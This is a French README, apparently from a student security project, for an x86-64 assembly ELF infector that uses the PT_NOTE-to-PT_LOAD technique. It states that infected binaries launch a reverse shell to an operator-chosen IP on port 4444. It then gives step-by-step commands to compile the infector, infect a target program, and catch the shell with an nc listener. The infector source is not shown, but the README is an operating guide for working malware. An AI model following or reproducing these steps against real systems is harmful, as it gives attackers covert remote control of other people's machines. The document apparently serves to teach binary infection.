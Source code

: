 # tp_note-tp_load-asm

**Lucas MILLER 4SI4**

Ce projet est un programme d'infection d'ELF à travers la méthode pt_note to pt_load.

Il n'est **pas** nécessaire de désactiver l'ASLR.
Ce programme est dynamique et ne nécessite donc pas de modifier le code lors de l'utilisation sur un autre programme.
Une fois infecté, le programme va, lors de son lancement, exécuter un reverse shell sur l'IP choisie.
L'IP peut être choisie lors du lancement, mais le port sera toujours 4444.

Il fonctionne sur les ELF avec les arguments -no-pie.

### Voici les commandes à lancer pour vérifier son bon fonctionnement.

Compiler le programme sain. Il peut être modifié en amont.
```
gcc -no-pie saine-code/safe_code.c -o saine-code/safe_code
```

Compilation de l'infecteur :
Il se compile ainsi :
```
nasm -f elf64 -o main/pt_note_to_pt_load_infector.o main/pt_note_to_pt_load_infector.s && ld -o main/pt_note_to_pt_load_infector main/pt_note_to_pt_load_infector.o
```
Puis lancement du programme :
Il va infecter le programme donné en argument
```
main/pt_note_to_pt_load_infector saine-code/safe_code
```

## Pour vérifier le reverse shell : 
```
saine-code/safe_code
```

Éxécution normal du programme

```
saine-code/safe_code
```

En parallèle :

```
nc -lnvp 4444

```


